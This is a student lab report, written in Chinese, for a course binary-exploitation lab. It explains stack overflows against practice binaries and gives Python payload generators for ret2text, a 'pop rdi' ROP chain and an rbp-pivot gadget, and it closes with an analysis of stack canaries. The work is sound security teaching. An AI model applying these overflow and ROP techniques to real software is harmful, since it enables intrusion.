

# 实验报告

## 题目解决思路

### Problem 1: 
- **分析**：
    通过分析 `objdump` 生成的 `p1.asm` 代码，发现 `func` 函数中存在栈溢出漏洞。
    * 栈空间分配：`sub $0x20, %rsp`，缓冲区位于 `rbp-8`。
    * 返回地址位置：`rbp+8`。
    * **溢出距离**：从缓冲区起始位置 (`rbp-8`) 到返回地址 (`rbp+8`) 的距离为 $8 + 8 = 16$ 字节。
    * **目标**：将返回地址覆盖为 `func1` 函数的地址（`0x401216`），该函数会调用 `puts` 输出 "Yes!I like ICS!"。

- **解决方案**：
    使用 Python 脚本构造 Payload。填充 16 字节的垃圾数据（Padding），紧接着拼接 `func1` 的地址（小端序）。

    ```python
    import struct
    # 1. Padding: 16字节 (8字节Buffer + 8字节Old RBP)
    padding = b"A" * 16
    # 2. Target Address: func1 (0x401216)
    target_addr = struct.pack("<Q", 0x401216)
    
    payload = padding + target_addr
    with open("ans1.txt", "wb") as f:
        f.write(payload)
    ```

- **结果**：
    运行 `./problem1 ans1.txt`，成功输出目标字符串。


    

  
### Problem 2:
- **分析**：
    本题开启了 NX 保护（栈不可执行），且 `func2` 函数会对参数进行检查：`cmpl $0x3f8,-0x4(%rbp)`。我们不能直接跳转，而是需要先将参数 `0x3f8` 传入 `%rdi` 寄存器（x86-64 调用约定的第一个参数），然后再跳转到 `func2`。
    * **溢出距离**：同 Problem 1，依然是 16 字节。
    * **Gadget**：在 `0x4012c7` 发现 `pop %rdi; ret` 指令序列，可用于将栈上的数据弹入 `%rdi`。

- **解决方案**：
    构造 ROP 链：`Padding (16B) -> Gadget地址 -> 参数(0x3f8) -> func2地址`。

    ```python
    import struct
    # 1. Padding
    padding = b"A" * 16
    # 2. Gadget: pop rdi; ret (0x4012c7)
    pop_rdi = struct.pack("<Q", 0x4012c7)
    # 3. Parameter: 0x3f8
    param = struct.pack("<Q", 0x3f8)
    # 4. Target: func2 (0x401216)
    func2 = struct.pack("<Q", 0x401216)
    
    payload = padding + pop_rdi + param + func2
    with open("ans2.txt", "wb") as f:
        f.write(payload)
    ```

- **结果**：
    运行 `./problem2 ans2.txt`，成功绕过参数检查并输出字符串。

   


### Problem 3: 
- **分析**：
    本题目标是输出 "114"。虽然题目提示无保护，但环境开启了 NX，且栈地址随机。
    * **漏洞点**：`func` 函数中 `memcpy` 导致溢出，但限制写入长度为 56 字节。
    * **目标逻辑**：`func1` (`0x401216`) 会检查 `%edi` 是否为 `0x72`。
    * **策略**：由于需要设置寄存器且栈空间受限，利用 `mov_rdi` 函数中的 Gadget (`mov -0x8(%rbp),%rax; mov %rax,%rdi; ret`)。该 Gadget 依赖 `rbp` 来寻址参数。
    * **地址定位**：通过 GDB Core Dump 获取程序崩溃时的真实栈地址（`rsp`），计算出缓冲区绝对地址，通过伪造 `rbp` (Stack Pivoting) 让 Gadget 读取到正确的参数。

- **解决方案**：
    伪造 `rbp` 指向缓冲区，配合 Gadget 设置 `rdi=0x72`，最后跳转 `func1`。

    ```python
    import struct
    
    func1_addr = 0x401216
    gadget_addr = 0x4012e6 # mov -0x8(%rbp),%rax; mov %rax,%rdi; ret
    
   
    stack_ret_addr = 0x7fffffffd968 
    buffer_addr = stack_ret_addr - 40
    fake_rbp = buffer_addr + 8 # 让 rbp-8 指向 buffer 开头
    
    # Payload 结构
    # 1. 参数 0x72 (位于 buffer 开头)
    payload = struct.pack("<Q", 0x72)
    # 2. Padding
    payload += b"A" * 24
    # 3. 覆盖 RBP 为 Fake RBP
    payload += struct.pack("<Q", fake_rbp)
    # 4. 覆盖 Ret Addr 跳转到 Gadget
    payload += struct.pack("<Q", gadget_addr)
    # 5. Gadget 返回后跳转 func1
    payload += struct.pack("<Q", func1_addr)
    # 6. 对齐填充
    payload += b"B" * 8
    
    with open("ans3.txt", "wb") as f:
        f.write(payload)
    ```

- **结果**：
    使用 `setarch $(uname -m) -R ./problem3 ans3.txt` 运行，成功输出 "Your lucky number is 114"。

    

### Problem 4:
- **分析**：
    本题无需编写攻击代码。通过反汇编 `p4.asm`，可以观察到金丝雀的具体实现。
    * **Canary 设置 (入栈)**：
        在 `caesar_decrypt` 函数开头 (`121c`)：
        ```asm
        121c: mov    %fs:0x28,%rax    ; 从 TLS 获取随机 Canary 值
        1225: mov    %rax,-0x8(%rbp)  ; 存入栈底 (rbp-8)
        ```
    * **Canary 检查 (出栈)**：
        在函数返回前 (`1306`)：
        ```asm
        1306: mov    -0x8(%rbp),%rax  ; 取出栈中的 Canary
        130a: sub    %fs:0x28,%rax    ; 与原值比较
        1313: je     131a             ; 相等则跳转(正常返回)
        1315: call   __stack_chk_fail ; 不相等则报错退出
        ```
    * **原理**：Canary 位于缓冲区和返回地址之间。发生栈溢出时，Canary 必然先被覆盖。程序返回前检查 Canary 是否改变，从而检测并阻止攻击。

- **解决方案**：
    直接运行程序，根据程序内部逻辑（`main` 函数中调用 `caesar_decrypt` 解密并输出 flag），输入任意字符触发流程即可获得通关提示。

- **结果**：
    程序输出解密后的通关提示："If you give me yuanshi i will give you good scores"。

    

    

## 思考与总结

本次实验从基础的 ret2text 开始，逐步深入到 bypass NX 和 Canary 保护分析。
1.  **GDB 的重要性**：在 Problem 3 中，由于栈地址的不确定性，静态分析无法获得精确地址。通过生成 Core Dump 并在 GDB 中调试，我学会了如何获取程序运行时真实的栈指针 (`rsp`/`rbp`)，这对于构造精密的 ROP 链至关重要。
2.  **保护机制的攻防**：NX 保护使得 Shellcode 失效，强迫我们使用 ROP 技术复用代码段；而 Canary 保护则通过随机值有效阻断了连续的栈溢出。理解这些机制有助于编写更安全的代码。
3.  **对齐与细节**：在利用 Gadget 时，对 `rbp` 的伪造需要精确计算偏移量，任何一个字节的偏差都会导致段错误，这体现了二进制安全对精确性的极高要求。

## 参考资料
